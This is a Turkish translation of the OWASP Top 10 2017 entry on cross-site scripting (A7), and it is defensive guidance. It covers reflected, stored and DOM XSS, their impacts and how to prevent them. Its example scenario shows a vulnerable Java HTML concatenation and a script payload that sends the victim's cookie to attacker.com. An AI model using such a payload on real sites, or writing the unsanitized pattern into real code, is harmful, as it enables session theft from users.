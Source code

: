# A7:2017 Siteler Arası Betik Çalıştırma (XSS)

| Tehdit etkenleri/Saldırı vektörleri | Güvenlik zafiyeti           | Etkiler               |
| -- | -- | -- |
| Erişim Düzeyi : İstismar Edilebilirlik 3 | Yaygınlık 3 : Tespit Edilebilirlik 3 | Teknik 2 : İş |
| Otomatize araçlar XSS'in 3 türünü de tespit ve istismar edebilmektedir. Ayrıca ücretiz olarak erişilebilir istismar araçları da bulunmaktadır. | XSS OWASP İlk 10 içerisindeki en yaygın ikinci problemdir ve tüm uygulamaların yaklaşık üçte ikisinde görülmektedir. Otomatize araçlar, özellikle PHP, J2EE / JSP ve ASP.NET gibi olgun teknolojilerde otomatik olarak bazı XSS problemlerini bulabilmektedir. | Yansıtılmış ve DOM XSS için etki orta düzeyde ve depolanmış XSS için giriş bilgilerini ve oturumları çalma veya kurbana zararlı yazılım bulaştırma gibi kurbanın tarayıcısında uzaktan kod çalıştırmada olduğu gibi ciddi düzeydedir. |

## Uygulamam Açıklık İçeriyor Mu?

Genellikle kullanıcıların tarayıcılarını hedef alan XSS'in üç farklı türü bulunmaktadır:

* **Yansıtılmış XSS**: Uygulama veya API, HTML çıktısının bir parçası olarak doğrulanmamış veya sterilize edilmemiş kullanıcı girdisi içermektedir. Başarılı bir saldırı saldırganın kurbanın tarayıcısında istediği HTML veya JavaScript kodunu çalıştırmasına izin vermektedir. Genellikle, kullanıcının zararlı Watering Hole web sayfaları, reklamlar veya benzerleri gibi saldırgan tarafından kontrol edilen bir sayfaya işaret eden kötücül bir bağlantı ile etkileşime geçmesi gerekmektedir.
* **Depolanmış XSS**: Uygulama veya API başka bir kullanıcı veya bir yönetici tarafından daha sonra görüntülenecek sterilize edilmemiş bir kullanıcı girdisini saklamaktadır. Depolanmış XSS genellikle yüksek veya kritik bir bulgu olarak değerlendirilmektedir.
* **DOM XSS**: Bir sayfa üzerinde saldırgan tarafından kontrol edilebilen veriyi dinamik olarak ekleyen JavaScript çerçeveleri, tek sayfa uygulamaları ve API'ler DOM XSS zafiyeti içermektedir. İdeal olarak, uygulama saldırgan tarafından kontrol edilen veriyi güvensiz JavaScript API'lerine yollamayacaktır.

Sıradan XSS saldırıları oturum çalma, hesap ele geçirme, MFA atlatma, DOM nod değiştirme veya bozma (trojan giriş panelleri gibi), zararlı yazılım indirme, klavye kaydetme ve diğer istemci taraflı saldırılar gibi kullanıcının tarayıcısına karşı yapılan saldırılardır.

## Nasıl Önlenir

XSS açıklığının önlenmesi güvenilmeyen verinin aktif tarayıcı içeriğinden ayırılmasını gerektirmektedir. Bu aşağıdakiler aracılığıyla yapılabilmektedir:

* Ruby on Rails, React JS gibi tasarımsal olarak XSS'i kendiliğinden sterilize eden çerçevelerin kullanımı. Her bir çerçevenin XSS koruma limitleri öğrenilmeli ve kapsamları dışında kalan kullanım örneklerinin üstesinden gelinmelidir.
* HTML çıktısında yer aldığı bağlama göre (body, attribute, JavaScript, CSS veya URL) güvenilmeyen HTTP isteği girdilerinin sterilize edilmesi Yansıtılmış ve Depolanmış XSS açıklıklarını çözecektir. [OWASP Kopya Kağıdı: XSS Korumaları](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) gerekli veri sterilizasyon teknikleri ile ilgili detayları içermektedir.
* İstemci tarafındaki tarayıcı dokümanı değiştirilirken bağlama duyarlı kodlamanın kullanılması DOM XSS açıklığına karşı koruma sağlamaktadır. Bu durum kaçınılmaz olduğunda, OWASP Kopya Kağıdı: DOM tabanlı XSS Koruması isimli dokümanda belirtildiği gibi bağlama duyarlı strelizasyon teknikleri tarayıcı API'lerine uygulanabilir.
* XSS'e karşı derinlemesine savunma kontrolü olarak bir [İçerik Güvenlik Politikası'nın (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) kullanılması. Eğer iç dosya ekleme(örn. dizin aşımı veya izin verilen içerik teslim ağlarından zafiyet içeren kütüphaneler) aracılığıyla zararlı kodun eklenmesine yol açabilecek başka bir açıklık bulunmuyorsa, etkili olacaktır.

## Örnek Saldırı Senaryoları

**Senaryo #1**: Uygulama doğrulama veya sterilizasyon olmadan aşağıdaki HTML parçasının oluşturulmasında güvenilmeyen veriyi kullanmaktadır.

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`
Saldırgan tarayıcısında 'CC' parametresini aşağıdaki gibi değiştirmektedir:

`'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

Bu saldırı kurbanın oturum ID değerinin saldırganın sitesine yollanmasına yol açmakta, bu durum da saldırganın kullanıcının mevcut oturumunu ele geçirmesine izin vermektedir.

**Not**: Saldırganlar uygulamada kullanılacak herhangi bir otomatize Siteler Arası İstek Sahteciliği (CSRF) korumasını atlatmak için XSS açıklığını kullanabilmektedir.

## Kaynaklar

### OWASP

* [OWASP Proaktif Kontroller: Verinin Kodlanması](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Proaktif Kontroller: Verinin Doğrulanması](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Uygulama Güvenliği Doğrulama Standardı: V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [OWASP Test Rehberi: Yansıtılmış XSS Testleri](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Test Rehberi: Depolanmış XSS Testleri](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [OWASP Test Rehberi: DOM XSS Testleri](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [OWASP Kopya Kağıdı: XSS Önlemleri](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [OWASP Kopya Kağıdı: DOM tabanlı XSS Önlemleri](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [OWASP Kopya Kağıdı: XSS Filtre Atlatma](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [OWASP Java Encoder Projesi](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project)

### Dış Kaynaklar

* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
